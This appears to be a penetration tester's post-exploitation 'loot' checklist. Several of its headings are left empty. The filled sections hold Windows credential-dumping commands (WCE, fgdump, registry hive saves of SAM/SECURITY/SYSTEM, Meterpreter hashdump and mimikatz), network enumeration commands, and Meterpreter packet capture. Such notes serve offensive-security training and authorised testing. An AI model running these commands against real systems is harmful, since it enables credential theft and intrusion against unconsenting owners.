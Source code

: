 ----------------------------- LOOT LOOT LOOT LOOT -------------------




------------------------------------------------------------------------


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:

### Proof

### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```
